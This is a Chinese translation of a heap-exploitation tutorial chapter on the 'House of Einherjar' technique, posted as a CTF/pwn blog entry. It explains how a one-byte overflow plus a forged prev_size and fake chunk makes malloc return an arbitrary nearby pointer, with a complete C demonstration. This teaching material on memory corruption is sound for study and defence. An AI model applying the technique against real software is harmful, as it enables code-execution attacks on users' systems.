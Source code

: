 ```yaml
---
title: Heap Exploitation系列翻译-16 House of Einherjar
tags: [CTF, pwn, heap]
layout: post
categories: translations
---
```


> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

这个house并不是"The Malloc Maleficarum"的一部分. 这项堆漏洞技术是由[Hiroki Matsukuma](https://www.slideshare.net/codeblue_jp/cb16-matsukuma-en-68459606)于2016年提出. 这项攻击也是围绕着利用'malloc'来返回一个附近的任意指针. 和其他攻击不同, 它只要求1字节的溢出即可实现. 有许多1字节溢出的软件漏洞, 但大多是著名的["off by one"](https://en.wikipedia.org/wiki/Off-by-one_error)错误. 它覆写内存中next chunk的'size并清除了`PREV_IN_USE`标志为零, 当然也会向`prev_size`(已经在前一个堆块的数据域)覆写一个伪造的大小. 当next chunk被释放, 它会发现它前一个堆块是空闲状态并尝试通过内存中'我们之前伪造的大小'作偏移来合并堆块. 伪造大小是精心计算的因此合并后的堆块的范围在伪造堆块处截止, 这可以被后续的malloc所返回

考虑以下示例代码(下载完整版本 [这里](https://heap-exploitation.dhavalkapil.com/assets/files/house_of_einherjar.c)):

```c
struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[32];               // padding
};

struct chunk_structure *chunk1, fake_chunk;     // fake chunk is at 0x7ffee6b64e90
size_t allotedSize;
unsigned long long *ptr1, *ptr2;
char *ptr;
void *victim;

// Allocate any chunk
// The attacker will overflow 1 byte through this chunk into the next one
ptr1 = malloc(40);                              // at 0x1dbb010

// Allocate another chunk
ptr2 = malloc(0xf8);                            // at 0x1dbb040

chunk1 = (struct chunk_structure *)(ptr1 - 2);
allotedSize = chunk1->size & ~(0x1 | 0x2 | 0x4);
allotedSize -= sizeof(size_t);      // Heap meta data for 'prev_size' of chunk1

// Attacker initiates a heap overflow
// Off by one overflow of ptr1, overflows into ptr2's 'size'
ptr = (char *)ptr1;
ptr[allotedSize] = 0;      // Zeroes out the PREV_IN_USE bit

// Fake chunk
fake_chunk.size = 0x100;   // enough size to service the malloc request
// These two will ensure that unlink security checks pass
// i.e. P->fd->bk == P and P->bk->fd == P
fake_chunk.fd = &fake_chunk;
fake_chunk.bk = &fake_chunk;

// Overwrite ptr2's prev_size so that ptr2's chunk - prev_size points to our fake chunk
// This falls within the bounds of ptr1's chunk - no need to overflow
*(size_t *)&ptr[allotedSize-sizeof(size_t)] =
                                (size_t)&ptr[allotedSize - sizeof(size_t)]  // ptr2's chunk
                                - (size_t)&fake_chunk;

// Free the second chunk. It will detect the previous chunk in memory as free and try
// to merge with it. Now, top chunk will point to fake_chunk
free(ptr2);

victim = malloc(40);                  // Returns address 0x7ffee6b64ea0 !!
```

注意以下事项:

1. 第二个堆块的大小为`0xf8`, 这只是确保了堆块的真实大小的最低有效字节为`0`(忽视标志位). 因此, 我们可以轻松的在不改变堆块大小的情况下设置`prev_in_use`位为`0`.
2. `allotedSize`减去了`sizeof(size_t)`, `allotedSize`等于完整堆块的大小. 这是因为当前堆块的`size`和`prev_size`不可用, 但是next chunk的`prev_size`可用.
3. 伪堆块的前向后向指针都经过调整, 以通过`unlink`的安全检查.
